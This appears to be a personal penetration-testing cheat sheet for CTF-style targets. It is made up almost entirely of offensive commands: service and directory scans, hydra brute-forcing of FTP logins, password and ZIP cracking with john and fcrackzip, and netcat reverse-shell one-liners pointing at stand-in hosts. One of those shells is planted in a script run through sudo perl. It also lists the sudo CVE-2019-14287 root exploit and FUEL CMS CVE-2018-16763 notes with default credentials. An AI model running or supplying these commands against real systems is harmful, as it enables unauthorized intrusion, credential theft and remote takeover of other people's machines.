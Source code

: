 ### nmap scan
`sudo nmap -sC -sV -v -oN nmap.md TARGET_IP` 


### Gobuster Scan
`sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://TARGET_IP/
sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://TARGET_IP/ -x php,py,js,css,html,txt
sudo gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://TARGET_IP/ -x php,py,js,css,html,txt`


### dirbuster scan
`sudo dirb http://TARGET_IP/ -R` 

### Cat all find read
`cat *`


### import TARGET_IP
`$IP`


### To Check Sudo Permissions
`sudo -l
sudo su
su root`

### curl command to change alphabets [agent-user] in web
`sudo curl -A "CHANGE_LETTER" -L TARGET_IP`


### prev esc linux bash shell
`sudo bash`

### download file from SSH TARGET MACHINE
`scp USERNAME@TARGET_IP_ADDRS:FILENAME`


### perl write to copy.sh [reverse shell]
`echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LOCAL_IP 5554 >/tmp/f' >/etc/copy.sh

sudo /usr/bin/perl /home/itguy/backup.pl`

### FTP Usage
`ftp TARGET_IP`

### SMBclient
`smbclient -L <IP_ADDRESS>`


### python shell - stable bash shell
`python3 -c  'import pty;pty.spawn("/bin/bash")'`


### FUEL CMS Exploit 1.4.1 CVE-2018-16763
`run command with ""
example:
CMD: "ls -la"
default cred: admin: admin`


### FUEL CMS Database login info
`fuel/application/config
cat database.php`


### netcat revershell
`"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc TARGET_IP 1234 >/tmp/f"`


### hydra command to brute-force FTP with username
`sudo hydra -l USERNAME -P /usr/share/wordlists/rockyou.txt TARGET_IP ftp`


### run python http server
`sudo python -m SimpleHTTPServer 80`


### wget download file
`sudo wget http://LOCAL_IP/FILE_NAME -0  PATH/PATH/`

`sudo wget http://YOUR_IP_ADDRS:8080/FILENAME`


### john cracking the password
`sudo john HASH_FILENAME --wordlist=/usr/share/wordlists/rockyou.txt`

### john ZIP file cracking
`sudo zip2john FILENAME.zip > OUTFILENAME`

### fcrackzip command
`fcrackzip <zip-file> -D -p /usr/share/wordlists/rockyou.txt`

### 7zip
`7z e ZIP_FILENAME`

### steghide command
`steghide info FILENAME [info about filename]

steghide extract -sf FILENAME [extract]`

### CyberChef to crack hash [base64]
https://gchq.github.io/CyberChef/

## sudo 1.8.21 exploit CVE-2019-14287
`sudo -u#-1 /bin/bash [spawn as root]`
